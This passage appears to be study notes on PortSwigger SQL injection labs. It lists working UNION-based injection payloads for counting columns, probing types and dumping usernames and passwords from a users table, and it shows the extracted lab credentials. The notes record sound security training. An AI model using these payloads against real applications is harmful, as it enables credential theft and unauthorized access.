 2) Determine the data type of the columns

select a, b from products where category='Gifts

' UNION select 'a', NULL--
' UNION select 'a', 'a'--
-> both columns are of data type string

' UNION select username, password from users--

administrator
tqx26ugf8jp1g30atsu9


# 7)Lab: SQL injection UNION attack, retrieving multiple values in a single column(https://portswigger.net/web-security/sql-injection/union-attacks)
Lab video: https://www.youtube.com/watch?v=yRVYoqR9vrI

SQL Injection - Product category filter

End Goal: retrieve all usernames and passwords and login as the administrator user.

Analysis:
--------

(1) Find the number of columns that the vulnerable is using:
' order by 1-- -> not displayed on the page
' order by 2-- -> displayed on the page
' order by 3-- -> internal server error

3 - 1 = 2

(2) Find which columns contain text
' UNION SELECT 'a', NULL--
' UNION SELECT NULL, 'a'-- ->**

(3) Output data from other tables

' UNION select NULL, username from users--
' UNION select NULL, password from users--

' UNION select NULL, version()--
-> PostgreSQL 11.11 (Debian 11.11-1.pgdg90+1) on x86_64-pc-linux-gnu, compiled by gcc (Debian 6.3.0-18+deb9u1) 6.3.0 20170516, 64-bit

```
' UNION select NULL, username || '*' || password from users--
```

carlos*hx8lpsrznosr462ydnvh
administrator*35v95vbpktdv4c2nqgak
wiener*0qc4vtnx4o08sr5nsstf

# 8)Lab: SQL injection UNION attack, retrieving multiple values in a single column 
